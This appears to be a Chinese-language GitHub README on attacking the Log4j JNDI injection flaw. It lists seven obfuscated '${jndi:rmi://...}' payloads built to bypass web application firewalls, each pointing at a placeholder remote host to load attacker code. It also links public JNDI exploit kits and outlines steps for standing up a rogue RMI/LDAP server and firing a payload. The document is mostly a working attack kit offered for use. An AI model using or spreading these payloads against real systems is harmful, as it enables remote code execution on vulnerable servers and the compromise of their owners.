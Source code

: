 # 绕过waf的一些poc

```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```

# 一些ldap或rmi利用工具

```
https://github.com/EmYiQing/LDAPKit
https://github.com/feihong-cs/JNDIExploit
https://github.com/veracode-research/rogue-jndi
https://github.com/su18/JNDI
https://github.com/0x727/JNDIExploit
https://github.com/welk1n/JNDI-Injection-Exploit
```

# 详细利用过程（https://github.com/welk1n/JNDI-Injection-Exploit 为例）

构造可用rmi或ldap服务

![image](https://user-images.githubusercontent.com/74412075/145697162-f2042d7e-4efb-4b2b-824a-227edfae1b2d.png)

使用普通poc进行攻击（ ${jndi:rmi://adsasd.asdasd.asdasd} ）

![image](https://user-images.githubusercontent.com/74412075/145697167-7a852493-a008-4258-a75b-561dbdd0e723.png)
